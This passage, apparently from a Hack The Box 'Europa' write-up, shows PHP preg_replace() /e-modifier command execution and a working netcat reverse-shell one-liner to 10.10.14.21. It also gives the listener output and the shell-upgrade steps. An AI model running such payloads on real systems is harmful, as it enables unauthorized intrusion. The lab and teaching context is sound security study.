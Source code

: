 As you can see, I have used the `e` after-pattern delimeter and used the PHP `system()` function to run a system command `id`, the output of which you can see in the response `uid=33(www-data) gid=33(www-data) groups=33(www-data)`. So we have a Command Execution here.

### NEVER USE preg_replace() IN YOUR CODE :P

It time to get a shell now.

# [](#header-1)EXPLOITATION:

Since we have command execution, we can use netcat to get a shell back.

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 443 >/tmp/f`

URL-encode the payload using burp decoder and use PHP system function to execute it. Do not forget to set up a netcat listener on your specified port.

![](assets/img/europa-htb/burp-4.png)

```
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.22] 59370
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@europa:/var/www/admin$ ^Z
[1]+  Stopped                 nc -nlvp 443
root@kali:~# stty raw -echo
nc -nlvp 443 

www-data@europa:/var/www/admin$ export TERM=xterm
www-data@europa:/var/www/admin$ id && hostname
```